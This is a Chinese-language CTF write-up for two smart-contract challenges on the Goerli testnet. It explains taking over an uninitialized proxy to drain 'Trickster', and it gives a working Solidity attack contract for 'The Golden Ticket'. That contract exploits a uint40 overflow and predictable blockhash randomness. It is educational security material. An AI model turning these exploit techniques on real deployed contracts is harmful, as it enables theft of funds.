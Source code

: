 <hr />

# 3. Trickster

进行了测试，如果直接与`JackpotProxy`交互，则会有来无回，为什么？

因为在`JackpotProxy::constructor`中，创建了`_proxy`，但却没有进行初始化`initialize`。所以在调用`claimPrize`时，`owner`与`msg.sender`不匹配，因此无法成行。

我们在`Goerli`上查看调用<a href="https://goerli.etherscan.io/tx/0xba80c4d9716e62fc3ab806f9b8fad6843744beffb8d99927ec8d11e212081d48">Tx</a>，可以获得`JackPot=0x8Aa401B931C990DCA9D4d5EAbe67217e320D731C`，直接调用`JackPot::initialize`获得所有权。

在获取后，传入`100000000000000`wei，调用`JackPot::claimPrize`。此时，已经掏空`JackPot`余额。

<hr />

# 4. The Golden Ticket

初步判断，看看是不是有溢出漏洞`            waitlist[msg.sender] += uint40(_time); `（unchecked）。这里遇到一个问题，remix里`VM`模式无论如何都无法调用`joinRaffle`，一直报错`Not Found`。但在web3 injector模式中却没问题，不知道其中原因。估计是一个Bug？

```Solidity
pragma solidity  ^0.8.0;

interface IGoldenTicket{
    function joinWaitlist() external;
    function updateWaitTime(uint256) external;
    function joinRaffle(uint256) external;
    function giftTicket(address) external;
    function waitlist(address) external returns (uint40);
}

contract TheGoldenTicketHacker {
 
    constructor(){

    }

    function check(address _addr) public  returns (bool){
        return (IGoldenTicket(_addr).waitlist(address(this)) < block.timestamp );
    }

    function checkTimestamp() public view returns (uint256){
        return block.timestamp;
    }

    function attack(address _addr,address _to) public{
        IGoldenTicket(_addr).joinWaitlist();
        IGoldenTicket(_addr).updateWaitTime(type(uint40).max- IGoldenTicket(_addr).waitlist(address(this)) + 1 days);
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        IGoldenTicket(_addr).joinRaffle(randomNumber);
        IGoldenTicket(_addr).giftTicket(_to);
    }
}
```
